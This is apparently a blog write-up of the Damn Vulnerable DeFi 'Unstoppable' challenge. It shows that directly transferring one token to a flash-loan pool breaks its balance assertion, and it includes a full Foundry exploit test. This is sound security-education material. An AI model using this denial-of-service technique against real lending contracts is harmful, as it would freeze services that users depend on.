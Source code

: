 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #1 Solution — Unstoppable'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>Our end goal in this challenge is to DOS (Denial of Service) the contract, preventing anyone to interact with it.
'
coverImage: 
  url: '/assets/blog/ethereum.jpg'
  credit: 
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-04-02T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #1  —  Unstoppable

> There’s a lending pool with a million DVT tokens in balance, offering flash loans for free.  
> If only there was a way to attack and stop the pool from offering flash loans …You start with 100 DVT tokens in balance.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/unstoppable)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/unstoppable/unstoppable.challenge.js)

## The attacker end goal

Our end goal in this challenge is to DOS (Denial of Service) the contract, preventing anyone to interact with it.

How can we break things?

## Study the contracts

#### `UnstoppableLender`

Let’s see what’s inside the Lending platform `UnstoppableLender`

We can see that

- The contract is using Solidity `>0.8`. This mean that this contract will not be prone to underflow/overflow errors.
- The contract inherit from the OpenZeppelin’s ReentrancyGuard contract, so we can be sure that reentrancy will not be a problem.
- We assume that the DVT (Damn Vulnerable Token) token is a safe contract
- The `constructor` is correctly checking that the DVT token is not an empty address

Let’s see what’s inside the `flashLoan` function

- It checks that `borrowAmount` is not 0
- It correctly checks that the balance of the Lending Pool has enough tokens to sustain the flashloan to the user
- It’s checking that `poolBalance` (state variable that track token deposited on the pool by users) is equal to the actual token balance of the pool `damnValuableToken.balanceOf(address(_this_))`
- It will perform the flash loan
- It will check that the balance after the flashloan is greater than the balance before. This is needed becasue we want to be sure that the user has at least repaid their loan debt.   
  `uint256 balanceAfter = damnValuableToken.balanceOf(address(_this_)); require(balanceAfter >= balanceBefore, “Flash loan hasn’t been paid back”);`

The first thing that come to my mind is the [SWC-132: Unexpected Ether balance](https://swcregistry.io/docs/SWC-132) that says:

> Contracts can behave erroneously when they strictly assume a specific Ether balance. It is always possible to forcibly send ether to a contract (without triggering its fallback function), using selfdestruct, or by mining to the account. In the worst case scenario this could lead to DOS conditions that might render the contract unusable.

The same thing applies here. The Lending Pool is assuming that all the users will supply tokens to the pool via the `depositTokens` method that will update the `poolBalance` internal balance.

So, how can we break the assumption that `assert(poolBalance == balanceBefore);`?

It’s pretty simple: we just make our attacker that has 100 DVT tokens to send 1 token to the Lending Pool address directly

`token.transfer(address(pool), 1);`

Thereafter, you would have that `poolBalance` would still be 1M tokens but the real balance of the lending pool would be 1M+1

## Solution code

You can see the full solution in the repository of [Damn Vulnerable DeFi — Foundry edition](https://github.com/StErMi/forge-damn-vulnerable-defi)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;

import {stdError} from "forge-std/stdlib.sol";

import "../../unstoppable/UnstoppableLender.sol";
import "../../unstoppable/ReceiverUnstoppable.sol";

import "../../DamnValuableToken.sol";

import {Utilities} from "../utils/Utilities.sol";
import {BaseTest} from "../BaseTest.sol";

contract UnstoppableLenderTest is BaseTest {

    uint TOKENS_IN_POOL = 1000000 ether;
    uint INITIAL_ATTACKER_TOKEN_BALANCE = 100 ether;

    DamnValuableToken token;
    UnstoppableLender pool;
    ReceiverUnstoppable receiverContract;

    address payable attacker;
    address payable someUser;

    constructor() {
        string[] memory labels = new string[](2);
        labels[0] = "Attacker";
        labels[1] = "Some User";

        preSetup(2, labels);
    }

    function setUp() public override {
        super.setUp();

        attacker = users[0];
        someUser = users[1];

        // setup contracts
        token = new DamnValuableToken();
        pool = new UnstoppableLender(address(token));

        // setup tokens
        token.approve(address(pool), TOKENS_IN_POOL);
        pool.depositTokens(TOKENS_IN_POOL);

        token.transfer(attacker, INITIAL_ATTACKER_TOKEN_BALANCE);

        assertEq(token.balanceOf(address(pool)), TOKENS_IN_POOL);
        assertEq(token.balanceOf(attacker), INITIAL_ATTACKER_TOKEN_BALANCE);

        vm.startPrank(someUser);
        receiverContract = new ReceiverUnstoppable(address(pool));
        receiverContract.executeFlashLoan(10);
        vm.stopPrank();
    }


    function test_Exploit() public {
        runTest();
    }

    function exploit() internal override {
        /** CODE YOUR EXPLOIT HERE */

        vm.prank(attacker);
        token.transfer(address(pool), 1);
    }

    function success() internal override {
        /** SUCCESS CONDITIONS */

        // It is no longer possible to execute flash loans
        vm.expectRevert(stdError.assertionError);
        vm.prank(someUser);
        receiverContract.executeFlashLoan(10);
    }
}
```

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.
